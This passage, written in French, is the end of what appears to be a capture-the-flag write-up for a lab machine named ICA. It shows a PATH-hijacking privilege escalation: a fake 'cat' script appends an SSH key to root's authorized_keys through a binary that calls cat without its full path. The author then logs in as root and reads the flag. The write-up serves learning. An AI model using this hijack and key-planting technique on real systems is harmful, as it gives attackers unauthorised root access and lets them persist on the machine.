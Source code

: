 ```console
```

```console
dexter@debian:~$ ls -l /root/system.info
ls: cannot access '/root/system.info': Permission denied 
dexter@debian:~$ /opt/get_access

  ############################ 
  ########     ICA     #######
  ### ACCESS TO THE SYSTEM ###
  ############################ 

  Server Information: 
   - Firewall:  AIwall v9.5.2
   - OS:        Debian 11 "bullseye"
   - Network:   Local Secure Network 2 (LSN2) v 2.4.1

All services are disabled. Accessing to the system is allowed only within working hours.
```

Il s'agit d'une exploitation classique du PATH puisque le binaire exécute *cat* sans spécifier son chemin au complet :  

```console
dexter@debian:~$ cat cat
#!/usr/bin/bash
mkdir -p /root/.ssh
echo "ssh-rsa --ma-cle-publique-ssh--" >> /root/.ssh/authorized_keys
dexter@debian:~$ chmod +x cat
dexter@debian:~$ export PATH=.:$PATH
dexter@debian:~$ /opt/get_access
All services are disabled. Accessing to the system is allowed only within working hours.
```

Plus qu'à récupérer notre accès :  

```console
$ ssh root@192.168.2.9
Enter passphrase for key '/home/sirius/.ssh/id_rsa':
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:~# cat root.txt
ICA{Next_Generation_Self_Renewable_Genetics}
```


*Published November 23 2021 at 13:18*
